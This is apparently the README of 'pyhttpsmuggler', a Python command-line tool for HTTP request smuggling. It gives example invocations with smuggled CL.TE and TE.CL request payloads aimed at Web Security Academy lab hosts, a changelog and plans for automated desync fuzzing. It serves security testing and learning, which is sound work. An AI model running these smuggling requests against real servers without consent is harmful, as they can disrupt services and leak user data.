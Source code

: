 # pyhttpsmuggler
```python
usage: ./pysmuggle [-h | --help] [--host [HOST]] [--port [PORT]] [--ngrok [NGROK]] [--method [METHOD]] 
[--endpoint [ENDPOINT]] [--http-version [HTTP_VERSION]] [--request-headers [REQUEST_HEADERS]] [--debug [DEBUG]]
[--special-formatting [SPECIAL_FORMATTING]] [--body-data [BODY_DATA]] [--body-length [BODY_LENGTH]] 
[--smuggled-body-fields [SMUGGLED_BODY_FIELDS]] [--use-ssl [USE_SSL]]
[--custom-body-payload [CUSTOM_BODY_PAYLOAD]] [--prefix [PREFIX]]
```

Scripts related to web/request smuggling & general web hacking.
This project is free to use and modify. The three things I ask of those interested in using/modifying/distributing this project is:
1. Users have the explicit consent from target host servers' maintainers to test for vulnerabilities-- as a successful exploit may disrupt web-services and/or leak sensitive user-data.
2. Any derivative project using any component from this project upholds the open-source philosophy with others in the research & development community.
3. Lastly, I ask (well, it's more of a statement really) that I assume no liability or responsibility for any & all potential consequences of others'actions when using this script on a live server instance.
## General Information
- The keys for the argument list are colored yellow. The values are purple.
- The request body field is colored such that the purple portion denotes the substring of the request covered by the content-length field. The cyan portion denotes the part of the request to be smuggled. 
## Examples
*Note: passing arguments denoted by pairs of quotations (",') is necessary for request fields which may contain spaces or special charachters*
### Vanilla GET Requests
```python
./pysmuggle --host stallman.org --method GET --body-data "0" --body-length 3 --request-headers "Transfer-Encoding: chunked,Content-Type:text/plain" --smuggled-body-fields ""
```
### CL.TE Vulnerability

```python
./pysmuggle --host "your-access-token.web-security-academy.net" --method "POST" --body-length "35" --body-data ""  --smuggled-body-fields "GET /404 HTTP/1.1,X-Ignore: X" --debug "1"
```
### TE.CL Vulnerability
```python
./pysmuggle --host "your-access-token.web-security-academy.net" --method "POST" --body-length "4" --body-data "5c" --smuggled-body-fields "GPOST / HTTP/1.1,Content-Type: application/x-www-form-urlencoded,Content-Length: 15,,x=1,0," --debug "1"
```
## Changelog
### 9/4/2021
- Implemented a WebRequest class to generate arbitrary web requests with malformed fields and/or fuzz around for TE.CL and CL.TE vulnerabilities in web server configurations.
### 9/5/2021 - 9/6/2021
- Implemented a CLI using argparse and the WebRequest class. This introduces robustness and more opportunities for automation since worker threads can easily invoke specially-crafted requests by passing arguments over the CLI under the control of a parent thread or list of exploits to try.
- Updated README with example usages, and development logs
- Started txt file outlining templates for various desync attacks for use in an automated auditing script.
# Todo:
## pyhttpsuggler-cli
1. [X] Improve  CLI for sending arbitrary requests from the command line rather than using driver scripts like smuggle.py. Maybe I will implement this in C++ or scapy depending on the advantages each choice offers...
2. [ ] Add fuzzing engine script to automate fuzzing websites for various HTTP request desync attacks
3. [ ] Create a text file with various desync attacks to test on an target webserver and a parser to turn the entries in the file into different requests.
4. [ ] Cleanup the chunk of if/elif/else login in pysmuggler.py:34-94
